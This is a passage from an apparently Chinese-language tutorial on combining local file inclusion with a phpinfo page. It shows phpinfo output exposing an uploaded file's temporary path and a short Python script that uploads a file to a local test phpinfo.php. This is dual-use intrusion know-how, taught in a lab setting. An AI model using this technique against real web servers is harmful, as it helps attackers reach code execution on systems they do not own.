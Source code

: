     ```
*   浏览器访问，phpinfo 返回如下信息：
    
    ```
    _REQUEST["submit"]  
        Submit
    
    _POST["submit"] 
        Submit
    
    _FILES["file"]  
        Array
        (
            [name] => file.txt
            [type] => text/plain
            [tmp_name] => /tmp/phpufdCHh
            [error] => 0
            [size] => 33
        )
    
    ```

得到tmp_name 路径

0x03 python脚本 upload file
=========================

* * *

```
import requests

host = '127.0.0.1'
url = 'http://{ip}/LFI_phpinfo/phpinfo.php'.format(ip=host)
file_ = '/var/www/LFI_phpinfo/file.txt'

response = requests.post(url, files={"name": open(file_, 'rb')})

print(response.text)

```

*   部分返回结果
    
    ```
    <tr><td class="e">_FILES["name"]</td><td class="v"><pre>Array
    (
        [name] =&gt; file.txt
        [type] =&gt; 
        [tmp_name] =&gt; /tmp/php7EvBv3
        [error] =&gt; 0
        [size] =&gt; 33
    )
    
    ```

0x04 本地搭建环境
===========
